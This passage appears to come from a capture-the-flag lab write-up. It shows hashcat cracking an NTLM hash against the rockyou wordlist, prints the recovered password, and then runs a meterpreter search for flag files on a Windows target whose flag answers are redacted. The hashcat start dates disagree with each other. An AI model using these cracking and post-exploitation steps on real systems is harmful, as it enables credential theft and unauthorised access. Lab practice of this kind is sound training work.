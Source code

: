 Watchdog: Hardware monitoring interface not found on your system. Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:

Filename..: /usr/share/wordlists/rockyou.txt
Passwords.: 14344385
Bytes.....: 139921507
Keyspace..: 14344385
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22

Session..........: hashcat Status...........: Cracked Hash.Name........: NTLM Hash.Target......: ffb43f0de35be4d9917ac0cc8ad57f8d Time.Started.....: Tue Feb 2 00:08:23 2021 (6 secs) Time.Estimated...: Tue Feb 2 00:08:29 2021 (0 secs) Guess.Base.......: File (/usr/share/wordlists/rockyou.txt) Guess.Queue......: 1/1 (100.00%) Speed.#1.........: 1705.7 kH/s (0.39ms) @ Accel:1024 Loops:1 Thr:1 Vec:8 Recovered........: 1/1 (100.00%) Digests Progress.........: 10203136/14344385 (71.13%) Rejected.........: 0/10203136 (0.00%) Restore.Point....: 10199040/14344385 (71.10%) Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1 Candidates.#1....: alsinah -> alonsouriel

Started: Tue Aug 2 00:03:23 2022 Stopped: Tue Aug 2 00:06:12 2022

Find flags
meterpreter > search -f flag*.txt Found 6 results... c:\Documents and Settings\Jon\Documents\flag3.txt (37 bytes) c:\Documents and Settings\Jon\My Documents\flag3.txt (37 bytes) c:\flag1.txt (24 bytes) c:\Users\Jon\Documents\flag3.txt (37 bytes) c:\Users\Jon\My Documents\flag3.txt (37 bytes) c:\Windows\System32\config\flag2.txt (34 bytes)

Flag1? This flag can be found at the system root.

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

Flag2? This flag can be found at the location where passwords are stored within Windows.

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

